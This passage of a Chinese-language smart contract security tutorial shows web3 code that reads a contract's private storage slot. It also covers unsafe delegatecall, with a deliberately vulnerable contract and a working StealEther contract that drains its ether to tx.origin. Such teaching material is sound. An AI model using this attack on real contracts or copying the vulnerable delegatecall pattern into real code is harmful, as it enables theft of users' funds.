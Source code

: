 下面是读取已部署的智能合约的私有变量的 javascript 代码

```solidity
const Web3 = require("web3");
const PRIVATE_VAR_EXAMPLE_ADDRESS = "0x123..."; // Replace with your contract address

async function readPrivateVar() {
  const web3 = new Web3("http://localhost:8545"); // Replace with your provider's URL

  // Read storage slot 0 (where 'myPrivateVar' is stored)
  const storageSlot = 0;
  const privateVarValue = await web3.eth.getStorageAt(
    PRIVATE_VAR_EXAMPLE_ADDRESS,
    storageSlot
  );

  console.log("Value of private variable 'myPrivateVar':",
              web3.utils.hexToNumberString(privateVarValue));
}

readPrivateVar();
```

## 不安全的代理调用

委托调用（Delegatecall）不应该被用于不受信任的合约，因为它把所有的控制权都交给了委托接受者。在这个例子中，不受信任的合约偷走了合约中所有的以太币。

```solidity
contract UntrustedDelegateCall {
  constructor() payable {
    require(msg.value == 1 ether);
  }

  function doDelegateCall(address _delegate, bytes calldata data) public {
    (bool ok, ) = _delegate.delegatecall(data);
    require(ok, "delegatecall failed");
  }

}

contract StealEther {
  function steal() public {
    // you could also selfdestruct here
    // if you really wanted to be mean
    (bool ok,) =
    tx.origin.call{value: address(this).balance}("");
    require(ok);
  }

  function attack(address victim) public {
    UntrustedDelegateCall(victim).doDelegateCall(
      address(this),
      abi.encodeWithSignature("steal()"));
  }
}
```
